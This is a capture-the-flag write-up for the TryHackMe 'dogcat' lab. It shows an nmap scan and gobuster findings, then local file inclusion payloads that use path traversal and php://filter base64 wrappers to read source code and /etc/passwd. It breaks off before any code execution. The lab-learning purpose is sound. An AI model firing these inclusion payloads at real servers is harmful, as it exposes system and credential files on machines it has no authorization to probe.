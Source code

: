 # Dog Cat VM
[Play here](https://tryhackme.com/room/dogcat)

## Recon

Exploring the website, we see that images come in the form of: 
`http://10.10.13.155/cats/7.jpg`

```
❯ nmap -script=default -sV -A 10.10.13.155
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 23:30 EST
Nmap scan report for 10.10.13.155
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.90 seconds
```


We can access this :( `http://10.10.13.155/cats/`

Gobuster shows `/cat.php` and `/dog.php`; which shows random images of cats and dogs respectively. Okay. Wow what? There seems no other option than messing around with `php` stuff. 

The room already gives us the hint of having LFI. Looking at [OWASP LFI](php://filter/convert.base64-encode/resource=FILE) we get this `http://vulnerable_host/preview.php?file=../../../../etc/passwd%00` giving us the exact path to the etc file, and we have a filter `php://filter/convert.base64-encode/resource=FILE`. As they metion in `OWASP LFI`, 

> However, in some specific implementations this vulnerability can be used to upgrade the attack from LFI to Remote Code Execution vulnerabilities that could potentially fully compromise the host.

> This enhancement is common when an attacker could be able to combine the LFI vulnerability with certain PHP wrappers.

Sounds interesting. When we go to `http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=dog` we see `<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />`. Exactly as we expected.

However, going to `http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=../../../../etc/passwd` shows us

![](https://i.imgur.com/6RCCMBr.png)
